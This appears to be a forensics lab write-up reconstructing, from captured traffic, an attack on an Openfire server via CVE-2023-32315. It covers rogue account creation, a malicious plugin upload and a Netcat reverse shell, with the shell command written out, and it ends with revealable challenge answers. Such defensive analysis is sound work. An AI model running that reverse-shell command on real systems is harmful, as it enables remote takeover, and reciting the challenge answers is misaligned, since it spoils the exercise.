





## Overview

TechNova Corp runs an Openfire-powered internal messaging server. The ShadowHunters threat group exploited a critical path traversal vulnerability in the Openfire admin console (CVE-2023-32315), gaining unauthenticated access to the admin panel, creating rogue accounts, uploading a malicious plugin for remote code execution, and ultimately establishing a reverse shell. The task is to analyse the provided PCAP in Wireshark and reconstruct the full attack chain.

---

## Investigation

### Initial Access — CVE-2023-32315

CVE-2023-32315 is a path traversal vulnerability in the Openfire administration console that allows an unauthenticated attacker to access restricted pages by manipulating the URL path. The attacker used this to reach the admin login panel without valid credentials and begin their operation.

Filtering HTTP traffic in Wireshark and following the TCP streams reveals the full attack chain in order.

---

### Login — CSRF Token Extraction

The first captured request is a POST to the Openfire admin login endpoint. Inspecting the form data in Wireshark shows the CSRF token submitted with the login:

```
Form item: "csrf" = "VypyY6v0F1w8iNK"
```

The credentials used were `admin:adminnothere`. The CSRF token is required by the Openfire admin panel to prevent cross-site request forgery — the attacker extracted it from the login page before submitting the form.


---

### Account Creation — T1136.001

With admin access established, the attacker created two new user accounts to maintain persistence in case the original access was revoked:

- `ix5768` — first account created
- `v01zxk` — second account created

These are visible in Wireshark as POST requests to the Openfire user management endpoint, with the usernames visible in the form data.


The attacker then logged back in using `v01zxk` to continue operations — likely to avoid leaving traces on the original `admin` account session.

---

### Plugin Upload — T1505.003

The most critical step in the chain is the upload of a malicious Openfire plugin. Openfire supports JAR-based plugins that extend server functionality — the attacker abused this legitimate feature to deploy a remote management tool.

Wireshark captures the multipart form upload with the filename clearly visible:

```
form-data; name="uploadfile"; filename="openfire-management-tool-plugin.jar"
```



The malicious JAR plugin maps to **T1204.002 (User Execution: Malicious File)** — once uploaded, the Openfire server loads and executes the JAR directly, treating it as a legitimate plugin while it silently provides the attacker with remote code execution capability.

---

### Remote Code Execution — whoami

With the plugin active, the attacker used it to execute commands on the server. The first command sent was:

```
whoami
```

This is standard post-exploitation recon to confirm the execution context and identify what user the Openfire service is running as.


---

### Reverse Shell — Netcat

Satisfied with RCE confirmation, the attacker established a persistent reverse shell using Netcat, connecting back to their machine at `192[.]168[.]18[.]160` on port `8888`:

```
nc 192.168.18.160 8888 -e /bin/bash
```

The `-e /bin/bash` flag binds a bash shell to the connection, giving the attacker a fully interactive shell session on the Openfire server.


---

## IOCs

|Type|Value|
|---|---|
|CVE|CVE-2023-32315|
|IP|`192[.]168[.]18[.]160`|
|Port|`8888`|
|File|`openfire-management-tool-plugin.jar`|
|Username|`ix5768`|
|Username|`v01zxk`|
|CSRF Token|`VypyY6v0F1w8iNK`|

---

<div class="qa-item"> <div class="qa-question-text">Q1) What is the CSRF token value for the first login request? (Format: Token Value)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">VypyY6v0F1w8iNK</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q2) What is the password of the first user who logged in? (Format: Password)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">adminnothere</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q3) What is the first username that was created by the attacker? (Format: Username)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">ix5768</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q4) How many accounts did the attacker create? (Format: Number)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">2</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q5) What is the MITRE technique ID for the above activity? (Format: XXXXX)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">T1136</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q6) What is the username that the attacker used to log in to the admin panel? (Format: Username)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">v01zxk</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q7) What is the name of the plugin that the attacker uploaded? (Format: Plugin Name)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">openfire-management-tool-plugin.jar</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q8) What is the MITRE sub-technique ID for the above activity? (Format: XXXXX.XXX)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">T1204.002</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q9) What is the first command that the user executes? (Format: Command)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">whoami</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q10) Which tool did the attacker use to initiate the reverse shell? (Format: Tool)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">netcat</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>


<div class="qa-item"> <div class="qa-question-text">Q11) On which port is the attacker listening? (Format: Port)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">8888</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q12) What is the CVE of this vulnerability of Openfire? (Format: CVE-XXXX-XXXXX)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">CVE-2023-32315</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

